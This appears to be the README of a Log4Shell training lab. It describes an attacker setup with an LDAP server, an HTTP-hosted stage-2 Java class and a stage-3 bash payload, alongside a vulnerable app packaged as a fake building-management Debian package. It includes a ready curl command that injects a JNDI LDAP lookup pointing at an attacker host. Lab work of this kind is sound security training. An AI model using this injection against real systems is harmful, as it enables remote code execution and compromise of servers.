

M75-LOG4J-VULNERABILITY
-----------------------

# Overview



# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-1          # fake building management server/app source
    ├── buildingmgmt.1.0-1.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

1. Download and install the vulnerable web app.
```bash
wget -O /tmp/buildingmgmt.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/buildingmgmt.1.0-1.deb?raw=true
sudo apt install /tmp/buildingmgmt.deb
```

## Attacker

1. clone the source repo onto the attacker VM.

```
git clone https://github.com/sintax1/M75-log4j-vuln.git
```

2. Build and run the docker containers.

```
cd M75-log4j-vuln/victim
docker-compose up --build
```

3. Launch the exploit.

```
VICTIM=<The victim accessible IP or domain name accessible by the attacker>
VICTIM_VULN_PORT=<The port where the log4j vulnerable web app is running on the victim>
ATTACKER=<The attacker IP or Domain name accessible by the victim, for callbacks>
LDAP_PORT=1389
STAGE2_JAVA_CLASS_NAME=Plugin
curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
```

# Development

## Victim

### Build .deb package

```bash
cd victim
make build

-- output --
cd log4shell-vulnerable-app; gradle bootJar --no-daemon
To honour the JVM settings for this build a single-use Daemon process will be forked. See https://docs.gradle.org/7.4.1/userguide/gradle_daemon.html#sec:disabling_the_daemon.
Daemon will be stopped at the end of the build 

BUILD SUCCESSFUL in 4s
4 actionable tasks: 4 up-to-date
cp log4shell-vulnerable-app/build/libs/*.jar buildingmgmt.1.0-1/opt/buildingmgmt/building-management.jar
dpkg-deb --build buildingmgmt.1.0-1
dpkg-deb: building package 'buildingmgmt' in 'buildingmgmt.1.0-1.deb'.
```

### Transfer to the victim and install

```bash
apt install buildingmgmt.*.deb
```